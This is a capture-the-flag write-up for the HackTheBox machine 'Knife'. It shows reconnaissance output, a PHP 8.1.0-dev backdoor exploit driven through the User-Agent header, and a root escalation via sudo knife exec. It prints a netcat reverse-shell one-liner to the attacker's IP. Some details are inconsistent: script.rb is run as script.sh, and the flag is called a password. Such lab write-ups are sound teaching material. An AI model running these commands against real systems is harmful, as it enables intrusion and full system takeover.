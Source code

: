 #+TITLE: Knife
#+AUTHOR: AsmArtisan256

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: knife

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

* Enumeration

Starting with Nmap:

#+BEGIN_SRC
$ nmap -sC -sV -p1-65535 10.10.10.242
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 16:16 WEST
Nmap scan report for 10.10.10.242
Host is up (0.044s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.23 seconds

#+END_SRC

This being an obvious website (port =80= is open), then it should be added to
the =hosts= file, to simplify things:

#+BEGIN_SRC
10.10.10.242 knife.htb
#+END_SRC

The website is completely bare-bones. There is a fancy animation, but nothing is
clickable in the menu top-right. Path bruteforcing does not show any relevant
results.
From here, we should look at the response headers. In there we can see that
=Apache Httpd= version is =2.4.41=.

To see the rest of the response headers, we just run =cURL= like this:

#+BEGIN_SRC
$ curl -v knife.htb

Trying 10.10.10.242:80...
Connected to knife.htb (10.10.10.242) port 80 (#0)
> GET / HTTP/1.1
> Host: knife.htb
> User-Agent: curl/7.76.1
> Accept: */*
>
Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 29 May 2021 15:48:33 GMT
< Server: Apache/2.4.41 (Ubuntu)
< X-Powered-By: PHP/8.1.0-dev
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/html; charset=UTF-8
...
#+END_SRC

The website is also using PHP. Its version is =8.1.0-dev=, =dev= being a
development version. A search on =Google= for PHP exploits, the
[[https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html][first
result shows us a way of doing remove command injection!]].
This exploit verifies if =PHP/8.1.0-dev= appears in the headers and then does a
=GET= request with a specific value in =User-Agent=, something along the lines
of ="User-Agent": "zerodiumsystem("$remote_command");"=.

We save the exploit to =exploit.py= and try the =ls= command to test it:

#+BEGIN_SRC
$ python exploit.py -u http://knife.htb/ -c ls
[+] Results:
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
#+END_SRC

We got the filesystem root directory and that means the exploit is working for
this machine.

* User

Obviously, there is a possibility to do a reverse shell, but using this script
to run commands seems to suffice.
Running the =id= command, we find out the current user is =james= and the user
flag is inside =/home/james/=.

* Root

Running the command =sudo -l= while in user =james=, we get the following
information:

#+begin_src
$ python exploit.py -u http://knife.htb/ -c "sudo -l"
[+] Results:
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

#+end_src

We can run command =knife= as root! =knife= is a command-line tool that provides
an interface between a =chef= repo and the =Chef Infra Repository=
(https://docs.chef.io/workstation/knife/).
In the same link, we can also see that there is a subcommand called =exec=,
which runs Ruby scripts. Since we can run =knife= as root and run Ruby scripts
with it, probably running system commands through the scripts might be the best
course of action to get the root flag.
For this, a reverse shell is useful so we can write to a file. Going throught
the =ssh= route seems to be impossible, because it still asks for the password,
even though we have access to the private key. So reverse shell it is.
Using netcat to listen (=nc -lnvp 1337=), we then use the exploit to run the command to connect
to the reverse shell:

#+begin_src
$ python exploit.py -u http://knife.htb/ -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.76 1337 >/tmp/f"
#+end_src

And on the new shell, we run these commands:

#+begin_src
$ cd /home/james
$ echo "system(\"cat /root/root.txt\")" > script.rb
$ sudo knife exec script.sh
#+end_src

The output should be the root password!

* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">30-05-2021</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT
